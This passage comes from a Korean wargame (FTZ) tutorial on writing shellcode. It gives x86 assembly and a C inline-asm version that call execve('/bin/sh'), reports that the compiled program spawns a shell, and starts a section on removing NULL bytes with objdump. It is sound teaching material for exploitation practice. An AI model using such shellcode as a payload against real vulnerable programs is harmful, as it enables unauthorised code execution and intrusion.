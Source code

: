 	<tr>
		<td>간접 주소</td>
		<td>[eax]</td>
		<td>(%eax)</td>
	</tr>
</table>

``` c
// AT&T format
push $0x0
push $0x0068732f
push $0x6e69622f
mov %esp, %ebx
push $0x0
push %ebx
mov %esp, %ecx
mov $0x0, %edx
mov $0xb, %eax
int $0x80
```

위의 어셈블리어 코드를 c 환경에서 작성한다면 다음과 같이 작성하면 됩니다.  

``` c
// myshell.c
void main(){
        __asm__ __volatile__(
                "push $0x0              \n\t"
                "push $0x0068732f       \n\t"
                "push $0x6e69622f       \n\t"
                "mov %esp, %ebx         \n\t"
                "push $0x0              \n\t"
                "push %ebx              \n\t"
                "mov %esp, %ecx         \n\t"
                "mov $0x0, %edx         \n\t"
                "mov $0xb, %eax         \n\t"
                "int $0x80              \n\t"
        );
}

```

<img data-action="zoom" src='{{ "assets/ftz/shellcode/9.png" | relative_url }}' alt='relative'>  

다음과 같이 위의 소스코드를 컴파일한 뒤 실행해보니 shell이 정상적으로 실행되는 것을 확인할 수 있습니다.  

## 6) NULL을 문자열로 취급하는 것을 수정  

``` bash
objdump -M intel -d myshell | grep \<main\> -A 15
```

<img data-action="zoom" src='{{ "assets/ftz/shellcode/10.jpg" | relative_url }}' alt='relative'>  
